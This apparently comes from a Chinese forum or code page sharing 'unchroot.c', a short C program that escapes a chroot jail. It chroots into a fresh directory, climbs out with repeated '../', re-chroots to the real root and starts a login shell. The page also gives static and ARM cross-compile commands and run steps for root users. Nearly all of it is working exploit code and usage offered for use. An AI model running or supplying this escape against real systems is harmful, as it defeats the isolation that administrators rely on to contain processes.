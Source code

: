 在hu60.cn上查看/讨论：https://hu60.cn/q.php/bbs.topic.106810.html

### unchroot.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

int main() {
    mkdir("/tmp", 0777);
    mkdir("/tmp/unchroot.dir", 0755);
    chroot("/tmp/unchroot.dir");
    chdir("../../../../../../../../../../../../../../../../../../../../../../../../../../..");
    chroot(".");
    system("/bin/sh -l");
    return 0;
}
```

### 编译：

```
gcc -o unchroot -static unchroot.c
```

### 交叉编译为32位ARM二进制

```
arm-linux-gnueabi-gcc -o unchroot -static unchroot.c
```

[unchroot（491.31 KB）](unchroot)

### 使用

在chroot环境用root身份执行它即可（如果不是root身份，自行加sudo。如果无法切换到root身份，则无法从chroot中逃逸）：

```
chmod +x ./unchroot
./unchroot
```

应该会离开chroot环境，进入外面的shell。

-----------------------------------------

思路来自 https://terenceli.github.io/%E6%8A%80%E6%9C%AF/2024/05/25/chroot-escape
